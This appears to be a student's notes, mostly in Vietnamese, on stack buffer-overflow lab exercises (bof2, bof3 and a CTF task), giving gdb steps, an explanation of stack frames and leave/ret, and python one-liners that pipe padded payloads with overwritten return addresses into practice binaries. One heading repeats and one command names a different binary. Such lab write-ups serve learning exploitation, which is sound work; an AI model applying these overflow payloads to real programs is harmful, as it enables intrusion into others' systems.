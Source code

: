 
`bof2`
- `gdb` command
    +  python -c "print('A'*40 + '\xef\xbe\xad\xde')" | ./bof2.out

`bof3`
- `gdb` command
    +  đầu tiên vào gdb để lấy địa chỉ của hàm shell: gdb bof3.out
    +  sau đó gõ lệnh info address shell, sẽ có dc địa chỉ hàm shell là 0x804845b 
    +  python -c "print('A'*128 + '\x5b\x84\x04\x08')" | ./bof3.out

`bof3`
- `gdb` command
    +  python -c "print('A'*204 + '\x6b\x84\x04\x08')" | ./bof1.out (nhân 204 vì thêm 4 byte để xuống được eip)
`ctf`
`Stack Frame`
- Truyền địa chỉ của hàm myfunc vào return address của hàm vuln như bình thường 
- Tuy nhiên hàm myfunc có 2 đối số là p và q
- Khi `disas myfunc` ta thấy 
    +   0x0804856e <+83>:    cmp    DWORD PTR [ebp+0x8],0x4081211
    +   0x08048586 <+107>:   cmp    DWORD PTR [ebp+0xc],0x44644262
=> điều này cho thấy, kể cả khi truyền vào ko có parameter thì nó vẫn sẽ ngẫu nhiên so sánh 2 biến p và q dựa vào vị trí ebp+0x8 và ebp+0xc (nếu là hàm bình thường thì 2 vị trí này là 2 vị trí của 2 parameter khi truyền vào). Vì vậy ta sẽ truyền giá trị của p và q vào vị trí ebp+0x8 và ebp+0xc.

-Cần phải xem khi hàm myfunc dc gọi thì ebp sẽ nằm ở đâu
- Khi hàm vuln kết thúc sẽ có lệnh leave và ret
    + leave: 
        .mov esp,ebp -> đưa esp từ top-stack về base(ebp) => giải phóng toàn bộ vùng nhớ local của hàm vuln
        .pop ebp -> khi pop ebp thì giá trị ebp sẽ dc chép vào ebp trỏ, còn esp sẽ trỏ vô retaddr, và sau đó retaddr dc pop ra, lúc này sẽ chuyển điều khiển cho hàm myfunc, còn esp trỏ xuống parameter của hàm vuln
- Khi vào hàm myfunc thì sẽ có 3 lệnh quen thuộc:
    + push ebp (lúc này esp sẽ chỉ lên đây)
    + mov ebp,esp
    + sub esp

`Stack-frame` của vuln
    |      |    
    |      |buf[100]
    |      |
    |      |    
    |      |
    |      |
    |      |
    |      |ebp(Frame pointer)
    |      |eip(return address)
    |______|s
- "print('A'*104 + '\x1b\x85\x04\x08' + '\xe0\x83\x04\x08' + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')"
